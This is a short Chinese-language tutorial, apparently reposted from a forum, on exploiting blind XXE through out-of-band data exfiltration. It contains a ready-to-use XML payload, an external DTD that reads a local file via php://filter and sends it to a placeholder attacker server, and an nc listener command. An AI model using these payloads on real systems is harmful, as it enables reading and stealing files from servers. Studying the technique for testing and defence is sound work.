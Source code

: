 # XXE 无回显利用方式总结

> 原文：[https://www.zhihuifly.com/t/topic/3588](https://www.zhihuifly.com/t/topic/3588)

## XXE 无回显利用方式总结

可以使用外带数据通道提取数据，先用file://或php://filter获取目标文件的内容，然后将内容以http请求发送到接收数据的服务器（攻击服务器）

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]> 
```

##### evil.dtd的内容，内部的`%`号要进行实体编码成`%`

> 这里已经改好了

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY &#37 send SYSTEM 'http://ip:9999?p=%file;'>"> 
```

最后用nc进行本地监听

```
nc -lvv 9999 
```

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `&#37;`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。